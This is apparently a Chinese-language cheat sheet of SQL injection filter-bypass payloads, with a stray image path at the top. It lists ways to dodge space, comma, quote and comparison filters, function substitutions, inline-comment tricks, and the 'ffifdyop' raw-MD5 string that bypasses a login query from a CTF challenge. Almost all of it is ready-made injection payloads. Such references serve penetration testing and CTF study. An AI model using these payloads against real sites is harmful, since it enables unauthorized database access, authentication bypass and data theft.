 - 空格绕过
`+`，`%09`，`%0a`，`%0b`，括号`()`，内联注释`/**/`
```sql
?id=1+and+1=1+%23
?id=1%0Aand%0A1=1%0A%23
select(table_name)from(information_schema.tables)where(table_schema)=database()
id=1 /*!and*/ 1=1
?id=(1)and(1)=(1)%23
```

- 等价替换
用功能类似的函数或者方法来进行绕过
`and` -> `&&`
`or` -> `||` 
`=` -> `like`，`REGEXP`，`not < and not >`，`RLIKE`
`> X` -> `not between 0 and X`
`WHERE` -> `HAVING`
`NOT` -> `!`
`id=2` -> `id > 1 and id < 3`
`ID=1` -> `!(ID <> 1)`

- 逗号过滤
```sql
LIMIT 0,1  -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1)
SELECT 1,2,3,4  -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
SUBSTR('KAIBRO',1,1) => SUBSTR('KAIBRO' FROM 1 FOR 1)
```

- 过滤大小于号
`greatest(n1,n2,n3…)`返回n中的最大值
`least(n1,n2,n3…)`:返回n中的最小值
`between a and b`:范围在a-b之间


- 过滤引号
十六进制编码
`select column_name  from information_schema.tables where table_name=0x7573657273;`
ASCII码
`SELECT * FROM users WHERE username = CHAR(97, 100, 109, 105, 110)`
宽字节


- 函数绕过
`sleep()` -> `benchmark()`
`ascii()` –>`ord` 注：处理英文返回值一样，但是处理中文等返回值不一样
`group_concat()` –> `concat_ws()`
`substr()`,`substring()`,`mid()`可以相互取代, 取子串的函数还有`left()`,`right()`


- md5绕过
来自实验吧的一题，虽然靶场已经关了很久
```sql
$sql = "SELECT * FROM admin WHERE pass ='".md5($password,true)."'";
```
利用`ffifdyop`进行绕过，因为该字符经过md5加密后会变成 `or'6�]��!r,��b`，从而进行绕过，最终拼接的sql为
```sql
$sql="select password from users where password=''or'6<xxx>'"
```
